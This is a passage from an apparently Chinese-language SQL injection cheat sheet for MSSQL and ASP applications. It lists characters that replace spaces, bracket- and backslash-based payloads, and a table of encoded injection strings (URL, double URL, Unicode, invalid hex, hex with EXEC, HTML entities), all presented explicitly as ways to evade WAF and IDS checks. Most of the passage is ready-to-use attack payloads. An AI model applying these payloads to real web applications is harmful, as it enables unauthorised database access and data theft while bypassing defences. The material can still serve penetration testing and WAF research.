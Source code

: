附：
关键词之间的百分比符号只在 ASP(X)的 Web 应用程序中有效。

下面的字符也可用来避免空格。

```
22    "
28   （
29    ）
5B    [
5D    ] 
```

#### 示例：

```
UNION(SELECT(column)FROM(table));
SELECT"table_name"FROM[information_schema].[tables]; 
```

AND/OR 可以使用中间符号:

```
01 - 20 范围
21  !
2B  +
2D  -
2E  .
5C  \
7E  ~ 
```

示例：

```
SELECT 1FROM[table "0" not found /]

WHERE\1=\1AND\1=\1; 
```

附：
反斜杠似乎不适用于 MSSQL 2000 中.

### 编码

编码注射语句，有利于躲避 WAF / IDS 检查。

| URL 编码(URL Encoding) | SELECT %74able_%6eame FROM information_schema.tables; |
| 双重 URL 编码(Double URL Encoding) | SELECT %2574able_%256eame FROM information_schema.tables; |
| Unicode 编码(Unicode Encoding) | SELECT %u0074able_%u6eame FROM information_schema.tables; |
| 无效的十六进制编码(Invalid Hex Encoding (ASP) | SELECT %tab%le_%na%me FROM information_schema.tables; |
| 十六进制编码(Hex Encoding) | ' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x53454c4543542031 AS VARCHAR(4000)); EXEC (@S);-- |
| HTML 实体(HTML Entities 待验证） | %26%2365%3B%26%2378%3B%26%2368%3B%26%2332%3B%26%2349%3B%26%2361%3B%26%2349%3B |

